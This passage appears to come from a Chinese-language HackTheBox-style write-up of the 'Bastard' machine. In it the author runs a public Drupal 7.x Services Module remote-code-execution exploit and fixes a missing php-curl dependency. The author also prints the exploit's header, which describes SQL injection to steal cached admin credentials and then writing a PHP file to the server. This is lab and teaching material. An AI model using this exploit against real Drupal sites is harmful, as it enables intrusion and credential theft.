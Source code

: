 ```bash
└─# php 41564.php 
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
PHP Fatal error:  Uncaught Error: Call to undefined function curl_init() in /root/Bastard/41564.php:254
Stack trace:
#0 /root/Bastard/41564.php(104): Browser->post()
#1 {main}
  thrown in /root/Bastard/41564.php on line 254
```

解决环境问题 [PHP: How to fix the "Call to undefined function curl_init()" error - Anto ./ Online](https://anto.online/guides/php-how-to-fix-the-call-to-undefined-function-curl_init-error/)

```bash
sudo apt-get install php-curl
```

接着利用，显示利用失败，于是再次观察利用脚本

```bash
└─# head -n 40 41564.php                                                                                                                                     1 ⨯
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
<?php
# Drupal Services Module Remote Code Execution Exploit
# https://www.ambionics.io/blog/drupal-services-module-rce
# cf
#
# Three stages:
# 1. Use the SQL Injection to get the contents of the cache for current endpoint
#    along with admin credentials and hash
# 2. Alter the cache to allow us to write a file and do so
# 3. Restore the cache
#

# Initialization

error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.10.9';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'zf1yolo.php',
```
